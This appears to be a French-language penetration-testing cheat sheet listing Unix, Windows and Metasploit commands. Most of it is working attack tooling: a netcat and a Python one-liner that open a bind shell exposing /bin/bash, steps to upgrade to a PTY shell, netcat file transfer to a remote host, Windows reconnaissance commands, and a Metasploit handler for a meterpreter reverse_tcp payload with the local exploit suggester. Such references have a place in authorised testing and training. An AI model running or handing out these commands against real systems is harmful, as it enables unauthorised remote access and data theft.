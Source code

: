 <h2>Unix</h2>
Accorder les permissions pour un user specifique</br>
setfacl -m u:username:rwx myfolder</br>
Tunnel ssh dynamique sur le port local 8080:</br>
ssh -ND 8080 root@addressIP</br>
<h3>Obtenir un shell</h3>
Ouvrent un shell sur le port 2222 :
<ul>
  <li>nc -lvp 2222 -e /bin/bash</li>
  <li>python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(('',2222));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call(['/bin/bash','-i'])"</li>
</ul>
On se connecte avec nc -nv 2222 adress port</br>
<h4>Pour avoir un shell pty :</h4>
<ul>
  <li>python -c "import pty; pty.spawn('/bin/bash')"</li>
</ul>
<h4>Pour avoir tab completion tout joli :</h4>
<ul>
  <li>Prendre un shell pty avec la commande plus haut</li>
  <li>CTRL-Z</li>
  <li>stty raw -echo</li>
  <li>fg</li>
</ul>

Envoi fichier avec netcat :</br>
nc -l -p 1234 > out.file</br>
nc -w 3 [destination] 1234 < out.file</br>

<h2>Windows</h2>
systeminfo pour obtenir des renseignements sur le systeme</br>
net users [username] pour obtenir des renseignements sur les utilisateurs</br>
tasklist pour lister les processus</br>
netstat -ano pour les connexions reseau</br>
dir sysprep /s /b pour trouver un fichier dans le repertoire courant et ses sous-dossiers</br>
wmic qfe list pour lister les mises à jour installées</br>


<h2>Metasploit</h2>
Handler :</br>
use exploit/multi/handler</br>
set PAYLOAD windows/x64/meterpreter/reverse_tcp</br>
set LHOST 192.168.8.142</br>
set LPORT 8888</br>
set ExitOnSession false</br>
exploit -j -z</br>

use post/multi/recon/local_exploit_suggester</br>
